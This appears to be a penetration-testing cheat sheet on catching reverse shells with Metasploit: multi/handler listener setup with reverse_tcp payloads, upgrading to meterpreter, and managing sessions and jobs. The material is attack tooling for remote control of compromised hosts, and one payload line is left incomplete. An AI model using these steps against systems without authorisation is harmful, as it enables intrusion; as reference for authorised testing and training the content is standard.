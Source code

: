 # Reverse Shell

## Multi Handler

* Start the PostgreSQL service `service postgresql start`.
* Start the metasploit console `msfconsole`.
* `use exploit/multi/handler`.

## Setting Up a listener in multi handler

* `set lhost 192.168.1.10`.
* `set lport 4444`.
* Then we need to specify the payload,
  * netcat shell \([https://netsec.ws/?p=292](https://netsec.ws/?p=292)\)
    * windows listener `set payload windows/shell/reverse_tcp`
    * linux listener `set payload linux/x86/shell/reverse_tcp`
  * meterpreter shell
    * windows listener `payload windows/meterpreter/reverse_tcp`
    * linux listener payload linux

## Upgrade Shell to meterpreter shell

* You need to have a metasploit listener for netcat.
* You need to create a new session. Either Ctrl+z or `background`.
* Then we need to change the exploit first to "shell\_to\_meterpreter".
  * `use post/multi/manage/shell_to_meterpreter`

## Session Management

### List active sessions and process

* Linux \(search for port 4444\)
  * lsof -t -i:4444
  * netstat -ano \| grep 4444
  * ps
* Windows
  * netstat -ano

### Managing "jobs" in metsploit framework

* List all jobs
  * jobs
* Kill all jobs
  * jobs -K
* Jobs help
  * help jobs
* 
### Killing a session

* Linux \(killing service with pid\)
  * kill -9 1234



![TCP connection states](../../../.gitbook/assets/image%20%2831%29.png)

